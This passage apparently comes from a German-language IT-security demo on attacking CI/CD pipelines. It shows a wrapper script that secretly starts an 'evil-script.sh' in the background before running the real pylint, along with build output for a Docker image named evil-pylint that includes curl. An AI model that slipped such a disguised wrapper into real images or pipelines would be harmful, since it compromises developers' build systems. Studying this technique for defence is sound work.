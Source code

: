 Das wrapper Skript wie folgt erstellt.

```bash name=wrapper.sh
#!/bin/sh

# Run evil script in background
/usr/local/bin/evil-script.sh &

# Run the actual pylint with all arguments passed to container
pylint "$@"
```

Zuletzt haben wir noch den Evil-Container gebaut.

Ausgabe:
```bash
it-security@host34:~/pylint-cicd-demo$ sudo docker build -t evil-pylint -f Dockerfile .
[sudo] password for it-security: 
[+] Building 6.2s (13/13) FINISHED                                                                        docker:default
 => [internal] load build definition from Dockerfile                                                                0.0s
 => => transferring dockerfile: 426B                                                                                0.0s
 => [internal] load metadata for docker.io/library/python:3.9-alpine                                                0.0s
 => [internal] load .dockerignore                                                                                   0.0s
 => => transferring context: 2B                                                                                     0.0s
 => [1/8] FROM docker.io/library/python:3.9-alpine                                                                  0.1s
 => [internal] load build context                                                                                   0.1s
 => => transferring context: 763B                                                                                   0.0s
 => [2/8] RUN pip install pylint                                                                                    4.2s
 => [3/8] RUN apk add --no-cache curl                                                                               0.8s 
 => [4/8] COPY evil-script.sh /usr/local/bin/evil-script.sh                                                         0.1s 
 => [5/8] RUN chmod +x /usr/local/bin/evil-script.sh                                                                0.2s 
 => [6/8] WORKDIR /code                                                                                             0.0s 
 => [7/8] COPY wrapper.sh /usr/local/bin/wrapper.sh                                                                 0.0s 
 => [8/8] RUN chmod +x /usr/local/bin/wrapper.sh                                                                    0.2s 
 => exporting to image                                                                                              0.4s
 => => exporting layers                                                                                             0.4s
 => => writing image sha256:8d301505d0889c6b49fa7d24ba1a8175d014895bfda2ba6c6d741b7498ef59cf                        0.0s
 => => naming to docker.io/library/evil-pylint                                                                      0.0s
```


[host34]: host34-evil